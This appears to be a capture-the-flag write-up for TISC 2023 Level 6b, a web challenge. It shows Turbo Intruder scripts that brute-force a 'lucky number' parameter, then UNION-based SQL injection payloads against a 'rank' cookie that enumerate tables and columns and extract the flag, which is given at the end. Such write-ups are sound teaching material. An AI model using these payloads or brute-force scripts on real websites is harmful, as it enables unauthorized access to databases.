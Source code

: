 ```yaml
---
title: TISC 2023 - (Level 6b) The Chosen Ones
date: 2023-10-05 20:00:00 +0800
categories: [ctf]
tags: [web]
render_with_liquid: false
image:
    path: /assets/images/tisc2023/tisc2023.jpg
---
```

## Description

> We have discovered PALINDROME's recruitment site. Infiltrate it and see what you can find!
> 
> [http://chals.tisc23.ctf.sg:51943](http://chals.tisc23.ctf.sg:51943)

## Solution

The website is shown as below:

![](/assets/images/tisc2023/Pasted image 20231001230826.png)

After a number is submitted, it then mentions the correct lucky number.

![](/assets/images/tisc2023/Pasted image 20231001230944.png)

The first guess was that the lucky numbers may accidentally repeat themselves, hence the Turbo Intruder extension in Burp Suite is used to make multiple submissions:

![](/assets/images/tisc2023/Pasted image 20231001232454.png)

Since the number is submitted via the `entry` URL parameter, its value is set to `%s` like so in Turbo Intruder:

```
GET /index.php?entry=%s HTTP/1.1
```

Here is the Turbo Intruder script used:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=10,
                           pipeline=False
                           )

    for i in range(1, 1000000):
        engine.queue(target.req, i)
        
def handleResponse(req, interesting):
    import re
    
    if interesting:
        req.label = "Lucky number: " + re.findall(r"Too bad. The lucky number was (\d+)", req.response)[0]
        table.add(req)
```

The Turbo Intruder script is then executed and the results are shown below:

![](/assets/images/tisc2023/Pasted image 20231001232727.png)

Here, it can be observed that the guess was correct as a few numbers were seen to be repeating. Among these numbers, the lucky number `989691` is chosen and the Turbo Intruder script is updated like so:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=10,
                           pipeline=False
                           )

    for i in range(1, 1000000):
        engine.queue(target.req, 989691)
        
def handleResponse(req, interesting):
    if interesting:
        table.add(req)
```

The Turbo Intruder script is then executed and the results are shown below:

![](/assets/images/tisc2023/Pasted image 20231001233237.png)

Based on this, it can be concluded that if the lucky number is correct, the website adds a cookie `rank=0` and redirect to `main.php`. After adding the `rank=0` to the browser like so:

![](/assets/images/tisc2023/Pasted image 20231001233000.png)

The `/main.php` page is then visited:

![](/assets/images/tisc2023/Pasted image 20231002000749.png)

The page allows for the filtering of the first name and last name of the personnel records. Testing various SQL injection payloads in these fields did not work as the website seems to be blocking them. 

However, it was also observed that the rank of all of these personnels returned seem to coincide with the value of the `rank` cookie in the browser. If the value of the `rank` cookie is set to 1 like so:

![](/assets/images/tisc2023/Pasted image 20231002001320.png)

The page now returns even more personnel records, some with rank 0 and rank 1. This meant the page was also filtering for records that have a `rank` less than or equals to the value of the `rank` cookie:

![](/assets/images/tisc2023/Pasted image 20231002001333.png)

SQL injection payloads were then used on the `rank` cookie and it was discovered to be injectable. The next step was figuring out the number of columns:

```
rank=-1 UNION SELECT null                -- => 500 Internal Server Error
rank=-1 UNION SELECT null,null           -- => 500 Internal Server Error
rank=-1 UNION SELECT null,null,null      -- => 500 Internal Server Error
rank=-1 UNION SELECT null,null,null,null -- => 200 OK
```

The number of columns is 4. The flag is likely stored in another table in the database, hence the next step was viewing all tables names:

```
rank=-1 UNION SELECT TABLE_NAME,null,null,null from information_schema.tables --
```

![](/assets/images/tisc2023/Pasted image 20231002001647.png)

Knowing that the table is `CTF_SECRET`, the next step was viewing all column names:

```
rank=-1 UNION SELECT COLUMN_NAME,null,null,null from information_schema.columns where TABLE_NAME = 'CTF_SECRET' --
```

![](/assets/images/tisc2023/Pasted image 20231002001837.png)

Now that the table name and column name are known, the final step would be to retrieve the flag:

```
rank=-1 UNION SELECT flag,null,null,null from CTF_SECRET --
```

![](/assets/images/tisc2023/Pasted image 20231002001923.png)

## Flag

`TISC{Y0u_4rE_7h3_CH0s3n_0nE}`

